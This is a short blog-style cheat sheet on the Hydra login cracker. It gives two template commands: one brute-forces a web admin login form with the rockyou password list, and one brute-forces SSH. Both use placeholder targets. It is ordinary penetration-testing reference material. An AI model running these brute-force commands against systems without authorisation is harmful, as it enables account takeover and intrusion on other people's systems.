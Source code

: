 ```yaml
---
layout: post
title: Hydra 
author: Edwards 
date: 2020-11-15 
math: true
---
```


_Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add. This tool makes it possible for researchers and security consultants to show how easy it would be to gain unauthorized access to a system remotely._

## Brute force login page :
(example)
```bash
hydra -l <username> -P /home/edwards/Downloads/rockyou.txt <target_ip>  http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"
``` 

- -l LOGIN. 
- -P password FILE.

## Brute force ssh :
```bash
hydra -l <username> -P /home/edwards/Downloads/rockyou.txt ssh://<ip> -s <port>
```
